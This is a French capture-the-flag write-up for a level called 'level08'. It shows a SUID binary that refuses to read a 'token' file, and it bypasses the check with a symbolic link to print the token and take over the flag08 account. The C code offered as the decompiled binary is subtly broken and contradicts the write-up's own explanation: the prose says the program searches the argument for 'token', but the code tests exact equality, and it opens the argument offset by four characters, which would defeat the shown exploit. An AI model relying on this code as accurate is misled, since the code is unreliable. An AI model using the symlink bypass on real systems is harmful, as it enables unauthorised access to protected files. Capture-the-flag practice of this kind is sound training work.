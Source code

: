 ﻿```bash
$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

Encore un fichier qui a le bit SUID activé. On peut l'exécuter avec les droits de l'utilisateur flag08.

```bash
$ ./level08
./level08 [file to read]

$ ./level08 token
You may not access 'token'
```

Le programme prend un argument, un fichier à lire. On ne peut pas lire le fichier `token` directement...

En disassemblant le binaire, on obtient les instructions suivantes :

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>

int main(int argc, char *argv[]) {
    void *ptr;
    int fd;
    
    if (argc != 2) {
        printf("%s [file to read]\n", argv[0]);
        exit(1);
    }

    ptr = argv[1];
    
    if (strcmp(ptr, "token") == 0) {
        printf("You may not access '%s'\n", ptr);
        exit(1);
    }

    ptr = argv[1] + 4;
    fd = open(ptr, 0);
    
    if (fd == -1) {
        printf("Unable to open %s\n", ptr);
        exit(1);
    }

    char buffer[400];
    ssize_t bytesRead = read(fd, buffer, sizeof(buffer));
    
    if (bytesRead == -1) {
        printf("Unable to read fd %s\n", ptr);
        exit(1);
    }

    write(1, buffer, bytesRead);
    
    return 0;
}
```

Ainsi on voit que le programme verifie si argv[1] contient le mot "token" pour pouvoir refuser l'acces.
Malheureusement cette verification ne sers pas a grand chose puisqu'il suffit alors de creer un lien symbolique vers le fichier `token` pour pouvoir le lire.

```bash
$ ln -s /home/user/level08/token /tmp/magiclink
$ ./level08 /tmp/magiclink
quif5eloekouj29ke0vouxean
```

Et voila le travail :)

On se connecte ensuite avec l'utilisateur flag08 et on valide le niveau :P